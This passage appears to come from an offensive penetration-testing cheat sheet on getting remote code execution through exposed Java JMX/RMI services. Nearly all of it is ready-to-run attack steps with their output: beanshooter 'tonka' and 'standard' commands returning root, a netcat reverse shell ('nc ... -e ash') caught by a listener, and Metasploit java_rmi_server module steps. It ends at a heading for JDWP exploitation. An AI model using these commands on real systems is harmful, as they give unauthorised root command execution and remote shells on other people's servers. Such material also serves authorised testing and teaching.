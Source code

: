 ```
             $ nc -vlp 4444
             Ncat: Listening on 0.0.0.0:4444
             <SNIP>
             id
             uid=0(root) gid=0(root) groups=0(root)


           + Example 2 - RCE using the tool "Beanshooter" with the "TonkaBean" command
             -------------------------------------------------------------------------
             The TonkaBean is a custom MBean that is implemented by the beanshooter project and allows file system access and
             command execution on the JMX server. Its actions can be accessed by using the tonka operation, followed by the desired action.
             The exec action can be used to invoke a single command on the JMX service:

             //beanshooter tonka exec <TARGET-IP> <TARGET-PORT> <CMD>
             $ beanshooter tonka exec 172.17.0.2 9010 id
             [+] Invoking the executeCommand method with argument: id
             [+] The call was successful
             [+]
             [+] Server response:
             uid=0(root) gid=0(root) groups=0(root)
             <SNIP>


           + Example 3 - RCE using the tool "Beanshooter" with the "standard" action/command
             -------------------------------------------------------------------------------
             The standard action deploys a StandardMBean that implements the TemplateImpl class to achieve different targets.
             This technique was identified by Markus Wulftange and beanshooter implements it to allow command execution, file
             upload and TonkaBean deployment.

             //beanshooter standard <TARGET-IP> <TARGET-PORT> exec <CMD>
             $ beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'
             [+] Creating a TemplateImpl payload object to abuse StandardMBean
             [+] 	Deplyoing MBean: StandardMBean
             [+] 	MBean with object name de.qtc.beanshooter:standard=3873612041699 was successfully deployed.
             [+] 	Caught NullPointerException while invoking the newTransformer action.
             [+] 	This is expected bahavior and the attack most likely worked :)
             [+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=3873612041699 from the MBeanServer.
             [+] 	MBean was successfully removed.
             <SNIP>

             $ nc -vlp 4444
             <SNIP>
             Ncat: Listening on 0.0.0.0:4444
             id
             uid=0(root) gid=0(root) groups=0(root)


           + Example 4 - RCE using Metasploit
             --------------------------------
	     use exploit/multi/misc/java_rmi_server
	     RHOSTS <IPs>
	     set RPORT <PORT>
	     # configure also the payload if needed
	     run
```
#### Technique 7. RCE by exploiting an open Java Debug Wire Protocol (JDWP) interface